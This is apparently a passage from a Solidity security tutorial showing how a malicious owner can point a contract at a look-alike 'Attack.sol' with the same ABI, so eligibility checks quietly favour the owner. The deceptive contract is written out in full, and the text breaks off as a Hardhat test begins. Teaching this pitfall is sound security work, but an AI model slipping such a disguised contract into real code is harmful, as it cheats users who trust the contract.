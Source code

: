     function isUserEligible(address user) public view returns(bool) {
        return userEligible[user];
    }

    function setUserEligible(address user) public {
        userEligible[user] = true;
    }

    fallback() external {}
}
The last contract that we will create inside the contracts directory is Attack.sol

//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Attack {
    address owner;
    mapping(address => bool) userEligible;

    constructor() {
        owner = msg.sender;
    }

    function isUserEligible(address user) public view returns(bool) {
        if(user == owner) {
            return true;
        }
        return false;
    }

    function setUserEligible(address user) public {
        userEligible[user] = true;
    }
    
    fallback() external {}
}
You will notice that the fact about Attack.sol is that it will generate the same ABI as Helper.sol eventhough it has different code within it. This is because ABI only contains function definitions for public variables, functions and events. So Attack.sol can be typecasted as Helper.sol.

Now because Attack.sol can be typecasted as Helper.sol, a malicious owner can deploy Good.sol with the address of Attack.sol instead of Helper.sol and users will believe that he is indeed using Helper.sol to create the eligibility list.

In our case, the scam will happen as follows. The scammer will first deploy Good.sol with the address of Attack.sol. Then when the user will enter the eligibility list using addUserToList function which will work fine because the code for this function is same within Helper.sol and Attack.sol.

The true colours will be observed when the user will try to call isUserEligible with his address because now this function will always return false because it calls Attack.sol's isUserEligible function which always returns false except when its the owner itself, which was not supposed to happen.

Lets try to write a test and see if this scam actually works, create a new file inside the test folder named attack.js

const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");
